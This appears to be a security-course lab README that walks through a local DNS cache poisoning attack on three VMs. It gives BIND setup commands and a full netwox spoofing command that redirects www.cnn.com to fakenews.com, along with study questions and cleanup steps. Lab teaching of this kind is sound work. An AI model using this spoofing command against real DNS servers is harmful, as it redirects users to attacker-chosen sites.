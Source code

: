 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. On DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. On DNS Server: remove existing cache:

```console
# sudo rndc flush
```

3. On Victim Client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your Victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

4. On Attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 03/17/2022): 188.126.71.216 (you can use ping command to confirm it)

Explanation: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on Victim Client, send a query.

```console
# dig www.cnn.com 
```

Note: if your dig command shows www.cnn.com is mapped to 188.126.71.216, then it means the attack is successful; if it's not mapped to this IP address, it means you're not on the right track.

6. Stop the attack - press control-c on the Attacker VM's terminal. On Victim Client, open wireshark and repeat step 5 (i.e. run the dig command again), from the packets captured in wireshark, confirm the attack is still successful, and the forged response is indeed from the Victim DNS server.

7. You are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

